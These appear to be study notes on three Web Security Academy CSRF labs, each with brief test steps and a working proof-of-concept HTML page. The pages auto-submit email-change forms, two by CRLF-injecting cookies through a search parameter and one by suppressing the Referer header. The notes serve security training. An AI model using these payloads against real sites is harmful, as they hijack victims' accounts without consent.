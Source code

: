 ```html
```

***

### CSRF where token is tied to non-session cookie
#### Test
- changing the session cookie logs you out, but changing the csrfKey cookie merely results in the CSRF token being rejected. This suggests that the csrfKey cookie may not be strictly tied to the session. 
- Observe that if you swap the csrfKey cookie and csrf parameter from the first account to the second account, the request is accepted.
- search for endpoints that gets reflected in the Set-Cookie header
- use CRLF injection to inject new cookie
#### POC
```html
<form method="POST" action="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="test@myemail.com">
    <input type="hidden" name="csrf" value="xe5r3sdRe2Ceizmo4blfpy02UKxpN03k">  
    </form>
    <img src="https://aca51fb61ff988aa803fa9cd003f0079.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=jGDyLoTZDIE2A47Chp2F9MjrjDNHdnHI" onerror="document.forms[0].submit()"> 
```

*** 

### CSRF where token is duplicated in cookie
#### Test
- Check if csrf token is validated against cookie
- Search for a point where cookie value gets reflected
#### POC
```html
<form method="POST" action="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="sasdasdasd@myemail.com">
    <input type="hidden" name="csrf" value="fake">  
    </form>
    <img src="https://ac951f4f1e9fceda80912065008000ac.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit()"> 
```

***

### CSRF where Referer validation depends on header being present
#### Test
- Check if the referer header is checked and used as CSRF mitigation
#### POC
```html
<meta name="referrer" content="no-referrer"> 
<form method="POST" action="https://ac081f091ee034ef802e1dbd00d60000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="sasdasdasd@myemail.com">
</form>
<script>
       document.forms[0].submit();
</script>
```

